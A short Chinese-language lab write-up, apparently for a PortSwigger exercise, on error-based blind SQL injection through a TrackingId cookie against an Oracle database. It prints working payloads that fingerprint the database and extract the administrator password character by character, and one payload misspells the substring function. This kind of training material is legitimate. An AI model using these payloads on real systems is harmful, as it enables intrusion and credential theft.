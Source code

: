 **TrackingId=YOit8pgzOpUb0WmS' and (select 'a' from dual) = 'a**

![image-20250712163645139](portswigger.assets/image-20250712163645139.png)

报错 说明不是mysql 用dual成功说明是oc库 （要用from dual 和to_char）

尝试注入 先用永真或者永假**TrackingId=YOit8pgzOpUb0WmS' and (select case when (1=2) then to_char(1/0) else 'a' end from dual)='a**

然后爆破**TrackingId=YOit8pgzOpUb0WmS' and (select case when (subsring(password,1,1)='a') then to_char(1/0) else 'a' end from users where username='administrator')='a;**

![image-20250712163733358](portswigger.assets/image-20250712163733358.png)
